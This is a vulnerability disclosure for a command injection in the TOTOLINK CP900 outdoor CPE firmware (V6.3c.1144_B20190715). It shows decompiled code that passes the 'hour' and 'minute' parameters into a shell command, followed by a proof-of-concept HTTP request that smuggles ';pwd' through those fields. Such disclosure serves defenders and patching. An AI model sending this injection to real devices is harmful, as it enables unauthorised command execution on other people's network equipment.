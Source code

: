 ## CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP900
* Version: TOTOLink outdoor CPE CP900_V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink outdoor CPE CP900_V6.3c.1144_B20190715 were discovered to contain a command injection vulnerability in the `setApRebootScheCfg` function via the `hour ` or `minute` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
int __fastcall setApRebootScheCfg(int a1, int a2, int a3)
 2 {
 3
 4 memset(v20, 0, sizeof(v20));
 5 memset(v21, 0, sizeof(v21));
 6 memset(v19, 0, sizeof(v19));
 7 Var = websGetVar(a2, "mode", "0");
 8 v5 = websGetVar(a2, "week", "");
 9 v6 = (const char *)websGetVar(a2, "hour", "");
10 v7 = (const char *)websGetVar(a2, "minute", "");
 11 v8 = websGetVar(a2, "recHour", "0");
 12 cs_uci_set("system.reboot.mode", Var);
 13 cs_uci_set("system.reboot.week", v5);
 14 cs_uci_set("system.reboot.hour", v6);
 15 cs_uci_set("system.reboot.minute", v7);
 16 cs_uci_set("system.reboot.recHour", v8);
 17 cs_uci_commit("system");
 18 ……
 19 sprintf(v19, "echo '%s %s * * %s reboot ‐f'>> /etc/crontabs/root", v7,
 v6, v21);
 20 v14 = v19;
 21 LABEL_13:
 22 CsteSystem(v14, 0);    //command execution
 23 goto LABEL_3;
 24 ……
 25 }
```

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 127
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setApRebootScheCfg",
    "hour": "'1;pwd'",
    "minute": "'2;pwd'"
}
```

